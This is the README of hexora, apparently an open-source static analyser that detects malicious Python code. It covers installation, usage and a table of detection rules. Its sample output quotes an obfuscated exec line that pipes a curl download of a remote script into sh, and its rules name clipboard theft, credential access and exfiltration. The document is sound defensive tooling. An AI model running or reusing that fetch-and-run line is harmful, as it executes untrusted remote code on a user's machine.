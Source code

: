 # hexora

Hexora is a static analysis tool designed to detect malicious and harmful patterns in Python code.

It can be used to:

- Audit project dependencies to catch potential supply-chain attacks
- Detect malicious scripts found on platforms like Pastebin, GitHub, or open directories
- Analyze IoC files from past security incidents
- Audit new packages uploaded to PyPi.


<img width="600" alt="Hexora example" src="docs/example.gif">


# Examples

For output examples, please see [docs/examples.md](docs/examples.md) file.

# Installation

## Using Python

Requires Python 3.9+.

```bash
pip install hexora
```

Using uv:
```bash
uv tool install hexora
```

# Usage


```bash
hexora --help
```

## Audit single file

```bash 
>  hexora audit test.py

warning[HX2000]: Reading from the clipboard can be used to exfiltrate sensitive data.
  ┌─ resources/test/test.py:3:8
  │
1 │ import pyperclip
2 │
3 │ data = pyperclip.paste()
  │        ^^^^^^^^^^^^^^^^^ HX2000
  │
  = Confidence: High
    Help: Clipboard access can be used to exfiltrate sensitive data such as passwords and keys.
    
warning[HX3000]: Possible execution of unwanted code
   ┌─ resources/test/test.py:20:1
   │
19 │ (_ceil, _random, Math,), Run, (Floor, _frame, _divide) = (exec, str, tuple), map, (ord, globals, eval)
20 │ _ceil("import subprocess;subprocess.call(['curl -fsSL https://example.com/b.sh | sh'])")
   │ ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ HX3000
   │
```


## Audit directory

```bash
hexora audit --output-format terminal resources/test/
```


## Audit packages from virtual environment

```bash
hexora audit --exclude HX5020,HX5030,HX5040,HX5050,HX5060 --min-confidence high .venv/lib/python3.11/site-packages/ 
```

Where `python3.11` is the version of the Python in virtual environment.

Tips:

- Use `--exclude` to suppress certain rule codes (e.g., noisy imports) for a given run
- Use `--min-confidence` to focus on high-confidence findings only.

Confidence indicates how a certain piece of code is malicious.
Some of the libraries are used for legit purposes, and it's hard to distinguish legit use-cases from malicious ones.
That's why some of the matches have a low confidence level.

## Usage in Python

```python
>>> import hexora
>>> results = hexora.audit_path("/Projects/hexora/resources/test/")
>>> len(results)
15
>>> results[0]
{'items': [{'confidence': 'low',
            'description': 'pyperclip can be used to copy and paste data from '
                           'the clipboard.',
            'label': 'pyperclip',
            'location': (7, 16),
            'rule': 'HX5010'},
           {'confidence': 'high',
            'description': 'Reading from the clipboard can be used to '
                           'exfiltrate sensitive data.',
            'label': 'pyperclip.paste',
            'location': (25, 42),
            'rule': 'HX2000'}],
 'path': '/Projects/hexora/resources/test/clipboard_01.py'}
>>> # Single file audit
>>> result = hexora.audit_file("/Projects/hexora/resources/test/clipboard_01.py")
>>> ...
 ```

## Available rules

New rules are added regularly.

Right now, the following rules are available:
| Code | Name | Description |
|---|---|---|
| HX1000 | AppEnumeration | Suspicious application enumeration. |
| HX1010 | BrowserEnumeration | Suspicious browser enumeration (apps, cookies, history, etc.). |
| HX1020 | PathEnumeration | Suspicious path enumeration. |
| HX2000 | ClipboardRead | Reading from the clipboard. |
| HX2010 | EnvAccess | Access to a sensitive environment variable. |
| HX3000 | CodeExec | Possible code execution. |
| HX3010 | ShellExec | Execution of a shell command. |
| HX3020 | DunderShellExec | Execution of a shell command via `__import__`. |
| HX3030 | DunderCodeExec | Execution of code via `__import__`. |
| HX3040 | DLLInjection | Possible DLL injection. |
| HX4000 | ObfuscateShellExec | Execution of an obfuscated shell command. |
| HX4010 | ObfuscatedCodeExec | Execution of obfuscated code. |
| HX4020 | ObfuscatedDunderShellExec | Execution of an obfuscated shell command via `__import__`. |
| HX4030 | ObfuscatedDunderCodeExec | Execution of obfuscated code via `__import__`. |
| HX5000 | DunderImport | Suspicious use of `__import__`. |
| HX5010 | SuspiciousImport | Suspicious import. |
| HX5020 | CtypesImport | Suspicious ctypes import. |
| HX5030 | PickleImport | Suspicious pickle import. |
| HX5040 | StructImport | Suspicious struct import. |
| HX5050 | SocketImport | Suspicious socket import. |
| HX5060 | MarshalImport | Suspicious marshal import. |
| HX6000 | Base64String | Long Base64-encoded string detected; possible code obfuscation. |
| HX6010 | HexedLiterals | List of hex-encoded literals detected; possible payload. |
| HX6020 | HexedString | Long hex-encoded string detected; possible payload. |
| HX6030 | IntLiterals | Large list of integer literals detected; possible code obfuscation. |
| HX6040 | CVEInLiteral | Literal contains a CVE identifier. |
| HX6050 | SuspiciousLiteral | Suspicious literal detected; possible data enumeration. |
| HX6060 | PathTraversal | Suspicious path traversal. |
| HX6070 | BrowserExtension | Enumeration of sensitive browser extensions. |
| HX6080 | WebHook | Suspicious webhook detected. Possible data exfiltration. |
| HX7000 | SuspiciousFunctionName | Suspicious function name. |
| HX7010 | SuspiciousParameterName | Suspicious parameter name. |
| HX7020 | SuspiciousVariable | Suspicious variable name. |
| HX8000 | BinaryDownload | Suspicious binary download. |
| HX8010 | BuiltinsVariable | Suspicious builtin variable usage. |


## Credits

For parsing, we use AST parser from [ruff](https://github.com/astral-sh/ruff/tree/main) library.
